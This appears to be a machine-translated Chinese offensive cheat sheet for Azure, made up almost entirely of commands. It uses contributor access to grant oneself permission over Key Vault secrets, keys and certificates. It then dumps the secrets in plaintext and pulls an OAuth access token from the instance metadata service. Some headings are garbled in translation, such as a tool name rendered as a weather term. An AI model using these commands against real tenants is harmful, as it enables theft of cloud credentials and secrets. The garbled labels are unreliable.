 # Az CLI 工具

## 证明

```
az login
```

## 转储 Azure 密钥库

列出当前帐户可以查看的任何密钥保管库资源

```
az keyvault list –query '[].name' --output tsv
```

有了贡献者级别的访问权限，您可以给自己获得机密的适当权限。

```
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

让 URI 负责钥匙库

```
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv
```

从 keyvault 获取明文秘密

```
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

# 元数据服务 URL

```
[http://169.254.169.254/metadata](http://169.254.169.254/metadata)
```

从元数据服务获取访问令牌

```
GET 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' HTTP/1.1 Metadata: true
```

# 其他 Azure 和 O365 工具

## 下击暴流

Azure 安全评估工具
